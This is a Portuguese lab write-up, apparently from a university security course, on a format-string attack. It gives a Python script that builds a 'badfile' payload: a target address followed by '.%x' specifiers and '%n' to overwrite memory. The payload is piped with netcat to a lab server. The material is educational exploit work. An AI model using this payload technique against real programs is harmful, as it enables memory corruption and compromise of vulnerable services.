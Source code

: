 Voltamos a recorrer a um pequeno _script_ de Python para construir o _input_ maligno (```badfile```):

```python
 1  #!/usr/bin/python3
 2  import sys
 3  N = 1500
 4  content = bytearray(0x0 for i in range(N))
 5  
 6  address = 0x080e5068
 7  content[0:4] = (address).to_bytes(4, byteorder='little')
 8  
 9  s = (".%x"*63) + ".%n\n"
10  fmt = (s).encode('latin-1')
11  content[4:4+len(fmt)] = fmt
12  
13  with open('badfile', 'wb') as f:
14      f.write(content)
```

Desta vez:

- Na linha 6, definimos o que irá ser escrito no início do _input_ como o endereço de memória cujo conteúdo queremos alterar;
- Com os ```.%x``` da linha 9, fazemos ```printf``` saltar as já familiares 63 posições de memória até chegar ao início do _input_. Sabemos que, então, na posição seguinte, estará o endereço do que nos interessa manipular. Agora, em vez de usarmos ```%s```, para imprimir o seu conteúdo como _string_, usamos ```%n```, para alterá-lo (seguido de ```\n```, que fará o _output_ mudar de linha, facilitando a leitura).

Assim, após gerar ```badfile``` e correr, como de costume ```cat badfile | nc 10.9.0.5 9090```, vemos, do lado do servidor:

![Tarefa 3A](images/LB_7/Tarefa_3A.png)

